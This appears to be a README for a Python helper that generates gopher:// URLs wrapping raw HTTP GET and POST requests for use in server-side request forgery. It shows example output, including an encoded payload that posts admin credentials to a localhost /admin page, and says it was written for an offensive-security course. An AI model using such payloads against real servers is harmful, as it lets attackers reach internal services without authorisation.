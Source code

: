 Gopher HTTP requests (POST/GET)

URL: gopher: // <host>:<port>/<gopher-path>_ followed by TCP data stream

Tip for determing POST request length:

└─$ echo "username=admin&password=admin" | wc -c 
 
 30
 
 Subtract 1 from this result. = 29 -> Then add this to content length header.

Example output:

----------

└─$ python3 gopher-requests.py

    1. Gopher GET Request
    2. Gopher POST Request
    
[*] Please select GET (1) or POST (2) request: 1

[x] Gopher GET Request: 
gopher://localhost:80/_GET%20/%20HTTP/1.1%0D%0AHost%3A%20127.0.0.1%0D%0AContent-Type%3A%20application/x-www-form-urlencoded%0D%0A


    1. Gopher GET Request
    2. Gopher POST Request
    
[*] Please select GET (1) or POST (2) request: 2

[?] Informational: The four HTTP headers above are required for POST requests, namely POST, Host, Content-Type and Content-Length. If it is missing, an error will be reported, but GET does not use it.

[x] Gopher POST Request: 
gopher://127.0.0.1:80/_POST%20/admin%20HTTP/1.1%0D%0AHost%3A%20127.0.0.1%0D%0AContent-Type%3A%20application/x-www-form-urlencoded%0D%0AContent-Length%3A%2029%0D%0A%0D%0Ausername%3Dadmin%26password%3Dadmin%0D%0A

----------

Update: This script was helpful during a recent offensive-security course I took, I thought it would be nice to put it out in the universe. It will help you form GET and POST requests that will be able to be used in SSRF.


